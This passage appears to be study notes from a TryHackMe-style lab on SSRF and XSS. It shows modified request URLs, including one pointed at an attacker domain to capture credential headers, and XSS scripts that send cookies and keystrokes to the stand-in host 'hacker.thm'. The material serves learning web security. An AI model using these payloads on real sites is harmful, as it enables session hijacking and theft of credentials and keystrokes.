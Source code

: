     Website requests - <http://api.website.thm/api/user>

  * Expected request - <http://website.thm/stock?url=/item?id=123>

    Modified request - <http://website.thm/stock?url=/../user>

    Website requests - <http://api.website.thm/api/stock/../user> (gives /api/user)

  * Expected request - <http://website.thm/stock?server=api&id=123>

    Modified request - <http://website.thm/stock?server=api.website.thm/api/user&x=&id=123>
    (&x= is a payload here, to stop remaining path appending to URL, instead it turns it into a parameter)

    Website requests - <http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123>

  * Expected request - <http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123>

    Modified request - <http://website.thm/stock?url=http://hacker.domain.thm/>
    (this helps in capturing request headers sent to attacker's domain, and the headers could contain authentication credentials or API keys)

    Website requests - <http://hacker.domain.thm/>
  
  * Possible SSRF vulnerabilities, can be discovered with <https://requestbin.com/> too -

    * When full URL is used in a parameter in address bar

    * A hidden field in a form

    * A partial URL like just the hostname

    * Only path of URL

### XSS

* XSS (Cross-Site Scripting) - Injection attack where malicious JS gets injected into web app for other users to execute. Examples -

  * Proof of concept:

    ```js
    <script>
      alert('XSS');
    </script>
    ```
  
  * Session stealing:

    ```js
    <script>
      fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));
    </script>
    ```

  * Key Logger:

    ```js
    <script>
      document.onkeypress = function(e) {fetch('https://hacker.thm/log?key=' + btoa(e.key));}
    </script>
    ```
